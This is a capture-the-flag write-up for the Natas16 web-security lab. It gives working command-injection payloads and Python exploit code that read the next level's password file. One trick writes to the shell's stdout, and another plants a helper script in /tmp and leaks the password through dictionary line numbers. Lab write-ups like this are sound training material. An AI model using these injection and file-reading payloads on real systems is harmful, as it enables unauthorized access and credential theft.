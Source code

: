 # Natas16
Cracking without brute-forcing

## Solution 1: getting the password using a redirection trick - with a single request!
Vulnerabilities:
* Shell comannd injection using: $( ) and < >

In Linux, it's possible to easily write to the stdout of the current bash session.
All is needed to get the password is to send this payload:
```
$(cat /etc/natas_webpass/natas17 > /proc/$$/fd/1)qqq
```
Explanation:
* $$ - current bash PID
* /proc/{process ID}/fd/1 - stdout
* qqq - a search string likely to return empty results


## Solution 2: exfiltrating the password 2-characters per request 
[Source code - Python 3](natas16.py)

Vulnerabilities:
- Shell comannd injection using: $( ) and < >
- Read/Write/Execute access to /tmp folder

### Making use of large result set
This approach takes advantage of the large amount of possible return values, to minimize the number of requests needed to get the password.
In this case <ins>only 16 requests</ins> were needed to exfiltrate the 32-characters password.

The file 'dictionary.txt' has 50253 unique rows, so an exploit can signal any value in the range 1-50253.
For example, to signal the value 9158 we can check on what line does this word appear in the dictionary => congratulations.
By providing _^congratulations$_ to the grep command, we should get the same word on the html output.
Wrapping the search term with ^ and $ guarantees an exact match, without extra character before or after it.

On the client side, the response word could be the searched in a local copy of dictionary and the found line number would be the signaled number.

### "Shifter" Helper utility - pick one parameter from a list by its index
This bash script was needed to bypass pipes and quotes characters filters.
```
shift $1
echo $1
```

usage:
```
shifter.sh 3 100 200 300 400 500
```
will return 300

In order to install this script:
1. Encode it as base64.
```python
shifter_script = "shift $1\necho $1\n\n"
shifter_b64 = base64.b64encode(bytes(shifter_script,"ascii")).decode('ascii')
```

2. Write it to /tmp folder
```python
payload = f'$(echo -n {shifter_b64} > /tmp/shifter.b64)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```  

3. Base64 decode it
```python
payload = '$(base64 -d < /tmp/shifter.b64 > /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

4. Make it executable
```python
payload='$(chmod a+x /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

### Getting a copy of dictionary.txt
```python
r = requests.get(f'{base_url}/dictionary.txt', auth=auth)
diclines = r.text.splitlines() 
```

### Exfiltrating the password characters
Since the password has only ASCII characters (code < 128), each pair of characters packed as 16-bit unsigned intger would have the maximum value of:
127*256 + 127 = 32639. This fits nicely into the 50253 options available.

So, for each character pair, the request should perform:

* Convert the password string to a list of 16-bit unsigned int numbers (each pair of characters to a number)
```
od -An -tu2 -w64 < /etc/natas_webpass/natas17
```

* Pick a specific number from a list
```
/tmp/shifter.sh {index} {list of numbers}
```

* Search the dictionary for a specific line number:
```
sed -n {line_number}p < dictionary.txt
```

```python
matches = []
for pair in range(1,17): 
  payload=f'^$(sed -n $(/tmp/shifter.sh {pair} $(od -An -tu2 -w64 < /etc/natas_webpass/natas17))p < dictionary.txt)$'
  r = requests.post(base_url, data={"needle": payload}, auth=auth)
  reply_text = r.text.replace('\n', ' ').replace('\r', '')
  m = re.search('<pre>(.+)</pre>', reply_text)
  word = m.group(1).strip()
  matches.append(word)
```

Result processing:
The HTML result for each request is parsed using Regex to extract matching word.
That word is searched on the dictionary to get its line number.
The line number is split to two bytes that are converted to characters.

All the resulting characters are then combined to the target password

```python
elb = []
for m in matches:
  i = diclines.index(m)+1
  elb.append(i & 255)
  elb.append(i >> 8)

#password
print("".join([chr(c) for c in elb]))

#cleanup
payload = '$(rm /tmp/shifter.*)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

